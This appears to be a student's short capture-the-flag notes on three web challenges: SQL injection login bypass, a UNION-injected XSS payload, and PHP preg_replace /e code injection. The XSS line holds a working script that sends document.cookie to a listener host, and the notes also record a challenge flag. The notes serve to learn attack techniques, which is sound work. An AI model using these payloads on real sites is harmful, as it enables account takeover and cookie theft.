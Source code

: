 * sql injection
  The query is probably 
  ~select * from xxx where (user='' AND password='');~
  ~(' or 1=1 or ')~ but ~(' or ''=')~ cannot because
  ~( user='' or ''='' and password = xxx )~. AND has higher precedence!
* XSS
  in the SQL injection before. 
  easily found that one column is 'user' and the other 'password'
  ~(') union select '<img id="test"> <script> var im=document.getElementById("test");im.src="http://localhost:8080/?cookie=" + document.cookie;</script>' as user,2 -- )~
  flag: xss_is_a_little_like_sqli_but_usually_a_lot_more_fun
* php
  read about ~preg_replace~. especially the ~e~ modifier
  guess they might be using ~preg_replace('/(.*)/e','hebrev("${1}")',my_input)~
  try give it ~[hebrew]'.phpinfo().'[/hebrew]~ failed.
  Hint from Cheng: have unescaped HTML as well.
  try ~[hebrew]<?php chr(97) ?>[/hebrew]~. Seems ~<?~ stuff is replaced by html comment.. 

